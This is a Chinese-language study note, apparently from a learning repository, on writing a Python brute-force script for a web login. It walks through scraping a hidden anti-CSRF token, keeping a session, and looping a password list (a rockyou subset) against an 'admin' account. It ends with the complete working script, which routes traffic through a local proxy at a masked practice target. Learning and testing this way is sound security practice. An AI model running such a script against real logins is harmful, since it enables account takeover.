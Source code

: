 # 1.python request模块进行破解

1. 今日份目标：暴力破解成功

2. 流程：使用python进行任务



## 2.步骤如下

> > > > 1. 用request模块请求url

2. 对于返回包进行切片操作，获取其中的token值
3. 将获取到的token值与字典一起发送进行暴力破解





# 3.步骤开始

[参考网址](<http://docs.python-requests.org/zh_CN/latest/user/quickstart.html>)

[参考网址1：用来request的用法](<https://blog.csdn.net/LOLITA0164/article/details/80176996>)

[参考网址2：最终实现方法](<https://blog.csdn.net/Danielntz/article/details/51861168>)

[参考网址3:获取token](eed1183184514fde0ef6310575f14458)

## 3.1Token获取代码如下：

```txt
import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

host = "http://打码用***打码用/c/hdyzma/"

page = urllib.request.urlopen(host)
contents = page.read()

soup = BeautifulSoup(contents,"html.parser")
#soup的用法

print(soup.find('input',style='display:none')['value'])
#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值

```

## 3.2 字典取list

[参考网址1：编码问题](<https://www.cnblogs.com/mengyu/p/6638975.html>)



---

坑点二：文件操作问题 [参考网址](<https://www.cnblogs.com/zarr12steven/p/6206600.html>)

遇到的情况：

Traceback (most recent call last):
  File "03_crake.py", line 5, in <module>
    get = f.readline()
io.UnsupportedOperation: not readable

解决方法：open函数里 'a' 改为'r'

---

---

坑点三：rockyou.txt出现编码问题

原因：rockyou文本太大，里面有一下密码会导致编码出错无法读取之类的

解决办法：新建一个simple文本，填入大概100个密码

---

---

坑点四：发包之后显示token错误

原因：发的包里没有sessionid

解决办法：加进去

解决代码：`s = requests.session()`

​			`s.get   s.post`

---

## 3.3 循环

`for get in gets`





# 4. 完成！

最后代码如下：

```txt

import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

import requests

gets = open("C:/Users/Elliot/Desktop/python_req_crack/simple.txt","r").read().splitlines()

host = "http://打码用***打码用/c/hdyzma/"

s = requests.session()


for get in gets:
    contents = s.get(host,proxies={'http': 'http://127.0.0.1:8080'}).content
    soup = BeautifulSoup(contents, "html.parser")
# soup的用法
    token = soup.find('input', style='display:none')['value']

    #print(token)


#for line in f.readlines():

    print(get)
   # print(line)

#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值


    url = host+'welcome.php'
    d = {'name': 'admin','password':get,'token':token }
    r = s.post(url, data=d,proxies={'http': 'http://127.0.0.1:8080'})
    r.encoding = 'UTF-8'
    print(r.text)
```



